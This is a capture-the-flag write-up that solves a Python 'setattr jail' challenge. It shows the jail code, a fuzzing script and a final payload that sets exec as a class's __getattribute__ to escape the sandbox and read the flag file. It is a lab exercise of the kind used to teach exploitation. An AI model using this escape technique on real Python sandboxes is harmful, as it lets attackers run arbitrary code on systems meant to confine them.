 I initially attempted this challenge because the code was short and it seemed simple, but in the end it took me two days to solve.

```python:jail.py
#/usr/bin/python3
# nowadays, setattr jails seem to be all the hype, and everyone loves builtins, so enjoy a setattr jail with builtins :>
for _ in range(2):
    src = input("Src: ")
    dst = input("Dst: ")
    assert "." not in src and dst.count(".") < 3
    for x in dst.split("."):
        assert x not in ["setattr", "getattr", "print"], "Hey im using those!" 
    a = "." in dst
    b = dst.split(".")
    x = dst
    pdist = __builtins__
    dst = getattr(__builtins__, dst.split(".")[0])
    if a:
        for x in b[1:]:
            pdist = dst
            dst = getattr(dst, x)
    src = getattr(__builtins__, src)
    setattr(pdist, x, src)

print(__builtins__)
```

After examining this code for a while, my first thought was to do something like `getattr = exec` using the first setattr call, however the blacklist prevents me from doing so.

Then, I considered using errors to trigger exec: using `setattr(__builtins__, "AttributeError", exec)` in the first call, then sending something like `print(next(open("flag")))` as dst after that. However, this never worked and the string `'__new_member__'` was being passed as the first argument instead.

I was stuck here for a while until I considered overriding the `__getattr__` or `__setattr__` dunder methods on an object. I tried setting it on a random function: `print.__getattribute__ = exec`. However, this gave the error `AttributeError: 'builtin_function_or_method' object attribute '__getattribute__' is read-only`. 

After a while, I had the idea of fuzzing all the properties I could call setattr on, hence I wrote a quick python script to list all of them.

```python:fuzz.py
for obj in vars(__builtins__).values():
    print('checking:', obj)
    for a in dir(obj):
        try:
            setattr(obj, a, 1)
            print(obj, a)
        except:
            pass
```

This yielded output with surprisingly many results, the first I tested was `help`.

```python
checking: help
Type help() for interactive help, or help(object) for help about object. __call__
Type help() for interactive help, or help(object) for help about object. __delattr__
Type help() for interactive help, or help(object) for help about object. __dir__
Type help() for interactive help, or help(object) for help about object. __doc__
Type help() for interactive help, or help(object) for help about object. __eq__
Type help() for interactive help, or help(object) for help about object. __format__
Type help() for interactive help, or help(object) for help about object. __ge__
Type help() for interactive help, or help(object) for help about object. __getattribute__
Type help() for interactive help, or help(object) for help about object. __gt__
Type help() for interactive help, or help(object) for help about object. __hash__
Type help() for interactive help, or help(object) for help about object. __init__
Type help() for interactive help, or help(object) for help about object. __init_subclass__
Type help() for interactive help, or help(object) for help about object. __le__
Type help() for interactive help, or help(object) for help about object. __lt__
Type help() for interactive help, or help(object) for help about object. __module__
Type help() for interactive help, or help(object) for help about object. __ne__
Type help() for interactive help, or help(object) for help about object. __new__
Type help() for interactive help, or help(object) for help about object. __reduce__
Type help() for interactive help, or help(object) for help about object. __reduce_ex__
Type help() for interactive help, or help(object) for help about object. __repr__
Type help() for interactive help, or help(object) for help about object. __setattr__
Type help() for interactive help, or help(object) for help about object. __sizeof__
Type help() for interactive help, or help(object) for help about object. __str__
Type help() for interactive help, or help(object) for help about object. __subclasshook__
```

I tried running the code:

```python
help.__getattribute__ = exec
getattr(help, "print('aoeu')")
```

Which did not work. Up until now, I had completely forgotten that you need to set `__getattribute__` on the class, not on an instance of it. In retrospect, the following code would work:

```python
help.__class__.__getattribute__ = exec
getattr(help, "print('aoeu')")
```

However, I then tried to use the `__spec__` attribute and eventually remembered that fact.

This was my final payload:

```
Src: exec
Dst: __spec__.__class__.__getattribute__
Src: aoeu
Dst: __spec__.print(getattr(open("flag\x2etxt"), "read")())
```

The flag: `LITCTF{maybe_temporary_flag_for_now_or_not}`

Honestly, I think this was one of the hardest ctf challenges I've solved thus far.